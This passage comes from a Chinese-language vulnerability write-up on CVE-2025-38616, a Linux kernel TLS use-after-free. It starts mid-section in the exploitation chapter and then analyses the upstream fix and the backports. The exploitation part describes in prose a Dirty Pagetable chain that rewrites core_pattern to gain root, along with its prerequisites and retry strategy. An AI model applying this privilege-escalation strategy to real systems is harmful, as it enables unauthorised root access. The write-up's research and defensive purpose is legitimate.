drain 完成——它既管 freelist 上的位置，也间接屏蔽 `H->shinfo` 被覆盖。

- **`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`**：该配置在分配对象时清零。本方案中 `n` 从 `skbuff_head_cache` 新分配，`n->head` 字段由 `__skb_clone` 从 UAF 读的 `A_clone->head` **拷贝**得到，不是从 `n` 的残留内存读取，清零对这一步无影响。`skb_clone` 对 `shinfo->dataref` 执行 `atomic_inc`，该操作作用于 `H` 尾部 `skb_shared_info` 的 `dataref` 字段，不改变 `H` 的内存内容；`INIT_ON_ALLOC` 只作用于新分配的对象，不作用于已分配未释放的 `H`。

- **`CONFIG_HARDENED_USERCOPY`**：本方案对 `core_pattern` 物理页的写入由用户态 `strcpy()` 在自己的 VMA 内完成，未越过 VMA 边界；`recv(conn, ro_map)`、`read(data_pipe, scratch)` 等 usercopy 路径都在用户态缓冲区的合法范围内，不涉及越界访问；`PTE[0]` 与 `core_pattern` 的物理页关系由伪造 PTE 建立，该路径不经过 usercopy。

- **`CONFIG_SHUFFLE_PAGE_ALLOCATOR`**：该配置打乱 buddy allocator 的 freelist，使 `P1` 的复用顺序不可预测。本方案通过 `NR_SPRAY` 次 VMA fault-in 触发 `NR_SPRAY` 次 `pte_alloc_one()`，每次 `alloc_pages(GFP_PGTABLE_USER)` 都是独立的 buddy 取页机会；`P1` 是否被其中一次取到是概率问题，方案用批量触发提高命中概率，不依赖单一物理页的精确预测。

整体上，本方案不做内核控制流转移，全部内核交互通过合法系统调用与页层对象复用完成。`mprotect()` 在阶段 10 用于 TLB 刷新：它会遍历 VMA 的 PTE 表，并按新权限修改每个 PTE 的权限位；对 `PTE[0]` 而言，`mprotect()` 把 `forged_pte` 的 `rw` 位在 `PROT_READ` 阶段清掉、在 `PROT_READ | PROT_WRITE` 阶段设回，**物理地址位保持不变**——`PTE[0]` 始终指向 `core_pattern` 物理页。`mprotect()` 的调用范围限于预留 VMA，不涉及其他内存区域。

### 3-16. 前提条件与局限性

2-5 已从环境、时序、数据形态、解密路径、内存布局五类条件给出漏洞链成立的前提；本节不重复这些条件，只列出在 2-5 全部满足之后，本章利用链额外需要的条目。

**前提条件**

- `core_pattern` 可写：目标系统的 `/proc/sys/kernel/core_pattern` 可写，`core_uses_pid` 不干扰 `%P` 的展开。阶段 10 把 `core_pattern` 改写为 `|/proc/%P/exe`，阶段 11 的内核 coredump 路径依赖 `%P` 展开为崩溃进程的 pid。

- coredump 限制：`ulimit -c` 不小于 1——watcher 崩溃必须能触发 core dump。若 `ulimit -c 0`，阶段 11 不会启动 helper，整条链在最后一步断掉。

- helper 路径可执行：`/proc/<pid>/exe` 可执行，`core_pattern` 的管道语法可用。若 `core_pattern` 的管道语法被禁用（如 `kernel.core_pattern_restrict`），阶段 11 的 `call_usermodehelper` 不会执行 helper。

**局限性**

- 阶段 7 的命中概率：PTE 命中概率随 `NR_SPRAY` 与 buddy 状态变化。现象：阶段 8 的 `PTE[0]` 校验失败。应对：重试阶段 7，或增大 `NR_SPRAY`。

- 阶段 10 的 VMA 遍历：无法提前识别哪个 VMA 对应 `P1`，遍历时间随 `NR_SPRAY` 线性增长。单次命中只需一个 VMA 写入成功，其余 VMA 触发 COW，无害但增加写入时间。

- 阶段 7 与阶段 10 之间的时间窗口：若其他内核路径在阶段 7 后重新分配了 `P1`，阶段 10 的写入可能落到错误物理页。方案用 `NR_SPRAY` 增大 `P1` 成为 PTE 表的概率，但不保证单次成功。

失败定位的一般规律：大多数失败在阶段 8 的 `PTE[0]` 校验处暴露；少数失败在阶段 10 的 `core_pattern` 校验处暴露。阶段 8 校验失败时，`P1` 未被 PTE 页表分配器取回，需重试阶段 7；阶段 10 校验失败时，`P1` 已被取回但阶段 10 的写入未落到 `core_pattern` 物理页，需回退检查阶段 9 的伪造 PTE 与阶段 10 的 VMA 遍历。

### 3-17. 章节总结

本章的 13 个阶段可以归纳为一条核心转换链：**把一次“UAF 读”放大为物理页级双重释放，再把物理页级双重释放转化为 pipe 与 PTE 页表的重叠**。这条转换链之所以成立，取决于三个设计决策，而非某个具体调用序列。

**决策一：在发送侧注入 `P1`。** 官方 PoC 的悬垂 `frag_list` 只产生 UAF 读与 `BUG()`，因为 `A_clone` 的 `frags[]` 里没有可以被二次释放的物理页。本文 PoC 在发送侧用 `splice` 把 pipe page 挂入 `A_clone->frags[0]`，使 `A_clone` 的释放路径多了一个可以被二次释放的物理页目标。没有 `P1`，T4 的 `put_page` 只是 `A_clone` 的合法释放，T5 的 `skb_clone` 也只是对已释放 `A_clone` 的 UAF 读——这两件事单独发生都不构成物理页级双重释放。`P1` 的引入把“引用计数递减”与“物理页归还”分到两个不同的时间点，才形成 Dirty Pagetable 的入口。

**决策二：把两次 `kfree(H)` 与 dummy drain 放在 CPU 0 上。** `skb_attempt_defer_free` 的语义是“释放到 `alloc_cpu`”，因此无论 reader 在哪个 CPU 上执行 `tcp_eat_recv_skb`，`H` 的第一次 `kfree` 最终都落在 CPU 0。若 reader 在别的 CPU，第一次 `kfree` 会被挂到 CPU 0 的 `defer_list`、延后执行——而 T5 的第二次 `kfree` 由 main 在 CPU 0 上立即执行，两者的时序就不再确定。让 reader 与 main 都运行在 CPU 0，使 T4 的 `kfree(H)` 走 `nodefer` 分支同步执行、T5 的 `kfree(H)` 也在 CPU 0 上执行，两次 `kfree` 都落在 CPU 0 的 `kmalloc-1k` freelist 上。在此基础上，T4.5 的 dummy drain 把 `H` 推到第 33 位，同时完成两个目的：规避 T5 第二次 `kfree(H)` 的 `BUG_ON(object == fp)`，以及屏蔽 `H->shinfo`（含 `frags[0] = P1`）被后续 CPU 0 分配覆盖。这一决策不依赖 CPU 分离，而是利用 CPU 一致性。

**决策三：让 T5 的 AEAD 走异步路径。** T3 与 T5 的 AEAD 走不同路径——T3 走同步，AEAD 在 `tls_decrypt_sg` 内完成，`copy_to_user` 失败后 `tls_sw_recvmsg` 直接调用 `tls_err_abort`；T5 走异步，`tls_do_decryption` 把请求提交到 cryptd，`darg->async = true`，`tls_decrypt_sg` 进入 `tls_strp_msg_hold` 分支——后者是产生 `n` 的唯一入口。`n` 不持有对 `P1` 的合法引用（它继承的是 UAF 读出的 `frags[0]`），因此在 `recv_end` 的 `__skb_queue_purge` 中释放 `n` 时，frags 循环里的 `put_page(P1)` 是一次无主释放。若 T5 也走同步，`tls_strp_msg_hold` 不会被调用，`n` 不存在，T5 就只会是又一次 UAF 读——这与官方 PoC 的结果相同，Dirty Pagetable 链不会形成。AF_ALG 的注册正是为了保证 T5 的异步路径可用。

三个决策共同确定了这条链的形态：`P1` 决定“能不能形成物理页级双重释放”，CPU 0 决定“两次 `kfree` 能不能稳定执行到 T5”，异步路径决定“T5 的释放是不是无主释放”。三者缺一不可，且都不是第 2 章所述“漏洞根因”的一部分——它们是利用层的设计选择，而不是漏洞本身的属性。

从可迁移性看，这条链的三个设计决策对应三类通用的利用思路。**“借用而不持有”的裸指针语义**是 CVE-2025-37756 家族的共同特征——任何把 skb 裸指针缓存进 anchor 的路径，都可以尝试构造“队列侧释放 + anchor 侧消费”的窗口。**“两次释放的合法性差异”**是跨子系统引用计数错位的通用模型——第一次释放有合法持有者，第二次释放因 UAF 读而不持合法引用，`page_ref` 因此被多减一次。**“跨子系统的对象重叠”**是 Dirty Pagetable 的通用做法——把物理页从“某个子系统的引用”转化为“某个子系统的数据结构”，关键在于找到一个能在物理页被归还后仍保留指针的“缓存”或“旁路引用”。这三类思路不限于 KTLS，也不限于 `sk_buff`——任何存在“裸指针缓存 + 并发消费者 + 双重释放”组合的子系统，都可能有类似的利用空间。

与第 2 章的关系可以一句话概括：第 2 章回答“漏洞为什么存在”，本章回答“如何把存在转化为可用”。第 2 章的四层结构缺失在本章中分别对应触发组（阶段 4–6）的具体操作；第 2 章的三类计数在本章中分别对应 T4、T4.5、T5 三次递减；第 2 章的七条链在本章中分别对应阶段 4–6 的函数调用。但本章不止于“落地”——它额外引入了 `P1`、CPU 0 的 dummy drain、T5 的异步路径这三个不属于漏洞本身的设计选择。正是这三个选择，把官方 PoC 的“一次 UAF 读 + `BUG()`”提升为“可复用的物理页级错位”。

### 3-18. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 4. 漏洞修复

### 4-1. 修复补丁概述

上游对 CVE-2025-38616 的修复是 commit `6db015fc4b5d5f63a64a193f65d98da3a7fc811d`，标题为“tls: handle data disappearing from under the TLS ULP”。该补丁由 Jakub Kicinski 于 2025 年 8 月 7 日提交，2025 年 8 月 12 日合入 net 树，`Reported-by` 为 William Liu 与 Savino Dicanosa。commit message 对该问题的定性如下：

> TLS expects that it owns the receive queue of the TCP socket. This cannot be guaranteed in case the reader of the TCP socket entered before the TLS ULP was installed, or uses some non-standard read API (eg. zerocopy ones). Replace the WARN_ON() and a buggy early exit (which leaves anchor pointing to a freed skb) with real error handling. Wipe the parsing state and tell the reader to retry.

这段话点明三层含义：其一，TLS ULP 假定自己独占 TCP 接收队列，这一假定在“ULP 安装前就进入的 reader”与“非标准读取接口（如 zerocopy）”两种场景下不成立；其二，原代码的 `WARN_ON + return` 是“有缺陷的提前退出”——它留下 `anchor` 指向已释放的 skb；其三，修复要把这一分支替换为真正的错误处理——清空解析状态，并让调用方重试。

补丁的 diff 横跨三个文件：`net/tls/tls.h`、`net/tls/tls_strp.c`、`net/tls/tls_sw.c`。核心变化是 `tls_strp_msg_load()` 的返回类型从 `void` 改为 `bool`，并在早退分支里清空 `strp->stm`、清除 `strp->msg_ready`，最后由调用方 `tls_rx_rec_wait()` 检查返回值并重试。

### 4-2. 补丁的技术分析

补丁的 diff 按文件逐块展开如下。

**`net/tls/tls.h`：函数签名的变化**

```diff
diff --git a/net/tls/tls.h b/net/tls/tls.h
index 774859b63f0de..4e077068e6d98 100644
--- a/net/tls/tls.h
+++ b/net/tls/tls.h
@@ -196,7 +196,7 @@ void tls_strp_msg_done(struct tls_strparser *strp);
 int tls_rx_msg_size(struct tls_strparser *strp, struct sk_buff *skb);
 void tls_rx_msg_ready(struct tls_strparser *strp);

-void tls_strp_msg_load(struct tls_strparser *strp, bool force_refresh);
+bool tls_strp_msg_load(struct tls_strparser *strp, bool force_refresh);
 int tls_strp_msg_cow(struct tls_sw_context_rx *ctx);
 struct sk_buff *tls_strp_msg_detach(struct tls_sw_context_rx *ctx);
 int tls_strp_msg_hold(struct tls_strparser *strp, struct sk_buff_head *dst);
```

`tls_strp_msg_load()` 的返回类型从 `void` 改为 `bool`。原实现中，该函数的早退分支只 `return;`，调用方 `tls_rx_rec_wait()` 无法感知这一早退，仍把“load 未完成”当作“load 成功”，继续进入 `tls_rx_one_record → tls_decrypt_sg` 的消费路径。返回类型改为 `bool` 后，调用方获得了一个明确的反馈通道。

**`net/tls/tls_strp.c`：早退分支的重写**

```diff
diff --git a/net/tls/tls_strp.c b/net/tls/tls_strp.c
index 095cf31bae0ba..d71643b494a1a 100644
--- a/net/tls/tls_strp.c
+++ b/net/tls/tls_strp.c
@@ -475,7 +475,7 @@ static void tls_strp_load_anchor_with_queue(struct tls_strparser *strp, int len)
 	strp->stm.offset = offset;
 }

-void tls_strp_msg_load(struct tls_strparser *strp, bool force_refresh)
+bool tls_strp_msg_load(struct tls_strparser *strp, bool force_refresh)
 {
 	struct strp_msg *rxm;
 	struct tls_msg *tlm;
@@ -484,8 +484,11 @@ void tls_strp_msg_load(struct tls_strparser *strp, bool force_refresh)
 	DEBUG_NET_WARN_ON_ONCE(!strp->stm.full_len);

 	if (!strp->copy_mode && force_refresh) {
-		if (WARN_ON(tcp_inq(strp->sk) < strp->stm.full_len))
-			return;
+		if (unlikely(tcp_inq(strp->sk) < strp->stm.full_len)) {
+			WRITE_ONCE(strp->msg_ready, 0);
+			memset(&strp->stm, 0, sizeof(strp->stm));
+			return false;
+		}

 		tls_strp_load_anchor_with_queue(strp, strp->stm.full_len);
 	}
@@ -495,6 +498,8 @@ void tls_strp_msg_load(struct tls_strparser *strp, bool force_refresh)
 	rxm->offset	= strp->stm.offset;
 	tlm = tls_msg(strp->anchor);
 	tlm->control	= strp->mark;
+
+	return true;
 }

 /* Called with lock held on lower socket */
```

这段 diff 是补丁的核心。原实现里，`tcp_inq(strp->sk) < strp->stm.full_len` 这一条件由 `WARN_ON` 包裹，命中时仅打印诊断信息并 `return;`——`strp->stm` 保留着旧的 `full_len` 与 `offset`，`strp->msg_ready` 保持 1，`anchor->frag_list` 保持指向旧的 skb。调用方看到 `tls_strp_msg_load()` 返回（`void` 函数“正常返回”），继续走消费路径，`skb_nsg()` 与 `skb_to_sgvec()` 便对已释放的 skb 做读取。

修复后，同一条件由 `unlikely()` 包裹并走真正的错误分支：`WRITE_ONCE(strp->msg_ready, 0)` 把 parser 的“record 就绪”状态清掉，`memset(&strp->stm, 0, sizeof(strp->stm))` 把 `full_len`、`offset`、`mark` 等解析元数据一并清零，`return false` 把“load 失败”明确告知调用方。`tls_strp_msg_load()` 的正常路径末尾补上 `return true;`——这行让函数的两个出口在语义上对称：要么 `true`，要么 `false`。

diff 中先 `WRITE_ONCE(strp->msg_ready, 0)` 再 `memset(&strp->stm, 0, sizeof(strp->stm))`，顺序如此；`WRITE_ONCE` 的使用是 diff 的原文，commit message 未对此作额外解释。

**`net/tls/tls_sw.c`：调用方的处理**

```diff
diff --git a/net/tls/tls_sw.c b/net/tls/tls_sw.c
index 549d1ea01a72a..51c98a007ddac 100644
--- a/net/tls/tls_sw.c
+++ b/net/tls/tls_sw.c
@@ -1384,7 +1384,8 @@ tls_rx_rec_wait(struct sock *sk, struct sk_psock *psock, bool nonblock,
 			return sock_intr_errno(timeo);
 	}

-	tls_strp_msg_load(&ctx->strp, released);
+	if (unlikely(!tls_strp_msg_load(&ctx->strp, released)))
+		return tls_rx_rec_wait(sk, psock, nonblock, false);

 	return 1;
 }
```

`tls_rx_rec_wait()` 是 `tls_strp_msg_load()` 在接收路径上的唯一调用方。原代码对 `tls_strp_msg_load()` 的返回值不感兴趣——`void` 函数也没有返回值可看——直接返回 1。修复后，调用方检查 `tls_strp_msg_load()` 的返回值：若为 `false`，递归调用 `tls_rx_rec_wait(sk, psock, nonblock, false)` 重试。

diff 中递归调用的第四个参数从 `released` 改为 `false`，这是 diff 的原文；commit message 未解释这一参数变化的含义。

补丁对修复目标有一段说明（在 4-3 节引用时再展开）：

> If some data was read from under TLS but there's enough in the queue we'll reload and decrypt what is most likely not a valid TLS record. Leading to some undefined behavior from TLS perspective (corrupting a stream? missing an alert? missing an attack?) but no kernel crash should take place.

也就是说，修复的目标不是“保证 TLS 语义的正确性”——若 TLS 下方的数据被部分读走，剩下的数据很可能不是合法的 TLS record，解密结果可能是乱码、可能丢失 alert、可能丢失某种异常信号。修复的目标是“保证内核不发生崩溃”——即使 TLS 语义被破坏，内核也只在 `tls_sw_recvmsg()` 的返回路径上表现为解密失败，而不会在 `skb_nsg()` 或 `skb_to_sgvec()` 处对已释放的 skb 做读取。

### 4-3. 漏洞利用链的切断

把补丁的改动映射到第 2 章的四层结构缺失上，可以看出修复切断了哪一层、没有切断哪一层。

**挂载点层（T0 之前）**：补丁没有触及。`__tcp_set_ulp()` 仍然不检查接收队列上是否已有阻塞消费者，`tls_sw_strparser_arm()` 仍然只替换 `sk_data_ready`。reader 在 ULP 安装前进入 `tcp_recvmsg()` 的窗口仍然存在。

**缓存绑定层（T2）**：补丁没有触及。`tls_strp_load_anchor_with_queue()` 仍然把接收队列首 skb 的裸指针存入 `anchor->frag_list`，不调用 `skb_get()`。`frag_list` 仍然不带引用计数。

**并发消费层（T4）**：补丁没有触及。`tcp_recvmsg_locked()` 与 `tls_sw_recvmsg()` 之间仍然没有同步，`tcp_eat_recv_skb()` 仍然可以在 parser 背后摘除并释放 skb。

**早退分叉层（T3 不早退、T5 早退）**：补丁触及了 T5 的早退分支，但没有触及 T3 的不早退。修复后，T5 的 `tcp_inq < full_len` 不再只是 `WARN_ON + return`——它变成“清空 `stm`、清除 `msg_ready`、返回 `false`”，调用方 `tls_rx_rec_wait()` 递归重试。重试时 `msg_ready` 已为 0，`tls_rx_rec_wait()` 的等待循环会重新进入 `sk_wait_data()`，等待新的数据到达；若没有新数据，阻塞 socket 会停在这里，不会继续走到 `tls_rx_one_record → tls_decrypt_sg`。悬垂的 `frag_list` 因此不再被 `tls_strp_msg_hold()` 消费，`P1` 的第二次 `put_page` 不再发生。

commit message 对“为什么只切断消费路径、不修复形成路径”有一段说明：

> We already reload the anchor every time we (re)acquire the socket lock, so the only condition we need to avoid is an out of bounds read (not having enough bytes in the socket for previously parsed record len).

也就是说，上游认为“每次重新获取 socket 锁时重新加载 anchor”已经足以保证 anchor 指向“当前接收队列首 skb”，唯一需要避免的是“接收队列里的数据不足以覆盖旧的 `full_len`”这一越界读取场景。修复只处理这一越界读取场景，不触及挂载点层、缓存绑定层、并发消费层。

这与第 2 章 2-2-10 的判断一致：“上游修复 `6db015fc4b5d` 只补了早退分叉层。”四层中只修复了“最靠近触发点”的一层——悬垂 `frag_list` 被消费的路径被切断，但悬垂本身的形成条件（挂载点层的缺口、缓存绑定层的裸指针语义、并发消费层的路径并行）仍然原状。

把补丁的改动映射到第 3 章的利用阶段上，切点落在阶段 6 的 T5：

| 利用阶段               | 修复后的行为                                                                                                                                                                                                                                                                                           |
| ---------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 阶段 4（fork reader）  | 不变——reader 仍可在 ULP 安装前进入 `tcp_recvmsg`                                                                                                                                                                                                                                                       |
| 阶段 5（T0–T4）        | 不变——`A_clone` 仍在 T4 被释放，`anchor->frag_list` 仍悬垂                                                                                                                                                                                                                                             |
| 阶段 6（T4.5）         | 不变——dummy drain 与 recycle 仍可执行                                                                                                                                                                                                                                                                  |
| 阶段 6（T5 二次 recv） | **被切断**——`tls_strp_msg_load()` 返回 `false`，`tls_rx_rec_wait()` 递归重试，`tls_rx_one_record` 不被调用，`tls_strp_msg_hold` 不被调用，`n` 不创建，`put_page(P1)` 的第二次不发生                                                                                                                    |
| 阶段 7–12              | **无法进入**——`P1` 仍在 buddy freelist 上、`pipe->tmp_page` 仍指向它，但 `P1` 的第二次 `put_page` 没有发生，`P1` 的引用计数停在 1（仅 `pipe->tmp_page` 持有），没有“无主释放”，没有“pipe 与 PTE 页表重叠”，阶段 7 的 PTE spray 只会得到普通的 PTE 页表，`PTE[0]` 会指向 `empty_zero_page` 而不是被改写 |

也就是说，修复把利用链的入口从阶段 6 的 T5 切掉——`P1` 的第二次 `put_page` 是整条 Dirty Pagetable 链的入口，入口被切断后，后续的 PTE 泄漏、伪造 PTE、`core_pattern` 改写、root shell 全部无法进入。

但需要强调的是：修复后的版本上，**漏洞本身仍然存在**——挂载点层不检查已有消费者，缓存绑定层不给 `frag_list` 加引用计数，并发消费层不在 tcp reader 与 parser 之间建立互斥。T4 的 `A_clone` 释放仍然发生，`anchor->frag_list` 仍然悬垂。修复只是让悬垂之后的消费路径不再被触发——`tls_strp_msg_load()` 返回 `false` 后，调用方不再进入 `tls_rx_one_record`，悬垂的 `frag_list` 因此没有被 `skb_nsg` 与 `skb_to_sgvec` 读取。若未来有新的并发消费入口（例如新的非标准读取 API、或新的 softirq 路径）能在 `msg_ready` 重新置位后进入消费路径，悬垂窗口可能以另一种形式重新打开——这正是 2-2-10 所述“所有权未显式移交”这一结构性根因仍未消除的含义。

### 4-4. 修复版本与回溯状态

补丁 `6db015fc4b5d` 合入 net 树后，按稳定版规则回溯到以下分支：

| 分支 | 修复版本          |
| ---- | ----------------- |
| 6.17 | `6.17-rc1` 及之后 |
| 6.16 | `6.16.2` 及之后   |
| 6.15 | `6.15.11` 及之后  |
| 6.12 | `6.12.43` 及之后  |
| 6.6  | `6.6.103` 及之后  |

6.1 与 6.2 分支不在稳定版维护范围内——这两个分支的修复需要依赖下游 backport。本文所述 PoC 的可用窗口 `6.0 <= v < 6.3` 中，6.0–6.2 的 vanilla 内核没有官方修复；6.3 之后的版本因 `skbuff_small_head` 已阻断完整链，修复与否不影响 Dirty Pagetable 链的可用性（但修复仍然关闭了 UAF 读与 `BUG()` 的 DoS 路径）。

补丁的 `Fixes:` 标签指向 `84c61fe1a75b ("tls: rx: do not use the standard strparser")`——这是引入 `tls_strp_msg_load()` 早退分支的提交。`Fixes` 标签说明上游把这一早退分支标记为需要修复的对象，修复对象是这一早退分支本身。

### 4-5. 修复的技术要点

补丁的改动可以归纳为四条，每条都对应 diff 或 commit message 的具体内容。

**要点一：清空解析状态。** 早退分支命中时，`strp->stm` 里的 `full_len` 与 `offset` 已经不再匹配接收队列的实际状态。diff 中执行 `WRITE_ONCE(strp->msg_ready, 0)` 与 `memset(&strp->stm, 0, sizeof(strp->stm))`——清除 `msg_ready`，并把 `stm` 的 `full_len`、`offset`、`mark` 等字段一并清零。这一改动的效果是：下一次 `tls_strp_read_sock()` 会走 `!strp->stm.full_len` 分支，重新调用 `tls_strp_load_anchor_with_queue()` 与 `tls_rx_msg_size()`，解析从头开始，不会复用旧的元数据。

**要点二：递归重试。** `tls_rx_rec_wait()` 对 `tls_strp_msg_load()` 返回 `false` 的处理是递归调用自身。diff 中递归调用的参数为 `tls_rx_rec_wait(sk, psock, nonblock, false)`。修复后的行为是：`tls_rx_rec_wait()` 回到等待循环，等待新的数据到达；若没有新数据且 socket 是阻塞的，调用方停在 `sk_wait_data()` 上，不会继续走消费路径。

**要点三：只切断消费路径，不修复形成路径。** 补丁没有触及挂载点层（`__tcp_set_ulp` 仍不检查消费者）、缓存绑定层（`frag_list` 仍不加引用计数）、并发消费层（`tcp_recvmsg_locked` 与 `tls_sw_recvmsg` 仍不互斥）。补丁的改动范围只覆盖 `tls_strp_msg_load()` 与 `tls_rx_rec_wait()` 两个函数——它处理的是“越界读取”这一具体场景，不试图恢复“TLS 独占接收队列”的假定。

**要点四：不保证 TLS 语义正确，只保证内核不崩溃。** 修复后的行为是：若 TLS 下方的数据被部分读走、但剩余数据仍足以覆盖 `full_len`，`tls_strp_msg_load()` 会正常返回 `true`，`tls_decrypt_sg` 会对“很可能不是合法 TLS record”的数据做解密，得到乱码或 `-EBADMSG`。TLS 语义被破坏——流可能被污染、alert 可能丢失、某种异常信号可能丢失——但内核不会在 `skb_nsg` 或 `skb_to_sgvec` 处对已释放的 skb 做读取，不会触发 KASAN 报告，不会命中 `BUG_ON`。这一取舍把“安全”的定义从“TLS 语义正确”收窄为“内核不崩溃”。

把四条要点放回第 2 章的四层结构缺失里看，修复的效果是：早退分叉层的 T5 分支被补上真正的错误处理，悬垂 `frag_list` 不再被 `tls_strp_msg_hold()` 消费；但挂载点层、缓存绑定层、并发消费层仍然原状——悬垂仍然可以形成，只是形成之后不再被消费。这正是 2-2-10 的判断：“修复 `6db015fc4b5d` 让当前的悬垂窗口关闭，但没有让‘TLS ULP 假定接收队列独占’这一结构性假定变为代码不变量。”补丁关闭了 CVE-2025-38616 的当前窗口，但没有消除这一漏洞族的结构性根因——只要“所有权未显式移交”这一假定仍以隐含形式存在，未来任何新的并发消费入口都可能重新打开类似的窗口。

## 5. 免责声明

本文档旨在提供 **CVE-2025-38616** 漏洞的技术分析与教育性内容，仅供学习、研究和安全防御目的使用。作者与发布平台对以下事项声明如下：

1. **合法使用原则**：本文档中描述的任何技术细节、代码示例或利用方法仅供教育研究之用。读者不得将这些信息用于任何非法、未经授权或恶意的活动，包括但不限于未经授权的系统入侵、数据破坏、服务干扰或其他违反法律法规的行为。

2. **知识共享与责任**：本文档基于公开可获取的信息、官方漏洞公告和学术研究资料编写。作者力求确保技术内容的准确性，但不对信息的完整性、时效性或适用性作任何明示或暗示的保证。读者应自行验证信息的准确性，并在专业环境中谨慎应用。

3. **环境限制**：所有技术分析和实验应在受控的、隔离的测试环境中进行，例如使用特制的虚拟机或专用硬件。禁止在任何生产环境、公共网络或他人系统中尝试漏洞利用或相关技术。

4. **法律合规性**：读者应遵守所在国家或地区的所有适用法律法规，包括但不限于计算机安全法、数据保护法和知识产权法。任何使用本文档内容的行为所产生的法律后果，由行为者自行承担。

5. **技术中立性**：本文档对漏洞的分析保持技术中立立场，旨在促进安全社区的防御能力提升。文中提及的任何工具、技术或方法不应被视为对任何组织、产品或技术的背书或批判。

6. **更新与修正**：技术领域发展迅速，本文档内容可能随时间而过时。作者保留更新、修正或撤回文档内容的权利，不承诺另行通知。

7. **版权声明**：本文档内容受版权法保护，未经明确书面许可，不得用于商业目的。允许在注明出处的前提下进行非商业性的分享与引用。

**重要提示**：安全研究应始终遵循道德准则，以提升整体网络安全为目标。如发现安全漏洞，建议通过负责任的披露流程向相关厂商或机构报告，共同维护数字生态的安全与稳定。

---

_本文档的撰写参考了公开的漏洞公告、内核源码（Linux 6.1.134）及相关技术分析文献。所有实验均在封闭的测试环境中完成，未对任何实际系统造成影响。_

## 参考

- https://github.com/BinRacer/pwn4cve/tree/master/src/CVE-2025-38616
- https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2025-38616_lts_cos_mitigation
- https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html
- https://www.cve.org/CVERecord?id=CVE-2025-38616
- https://lore.kernel.org/all/tFjq_kf7sWIG3A7CrCg_egb8CVsT_gsmHAK0_wxDPJXfIzxFAMxqmLwp3MlU5EHiet0AwwJldaaFdgyHpeIUCS-3m3llsmRzp9xIOBR4lAI=@syst3mfailure.io/
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=bf9f1baa279f0758dc2297080360c5a616843927
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=1cface552a5b5f6e53a855de1a503ff958e2e253
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=84c61fe1a75b4255df1e1e7c054c9e6d048da417
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6db015fc4b5d5f63a64a193f65d98da3a7fc811d
- https://nvd.nist.gov/vuln/detail/CVE-2025-38616
- https://ubuntu.com/security/CVE-2025-38616
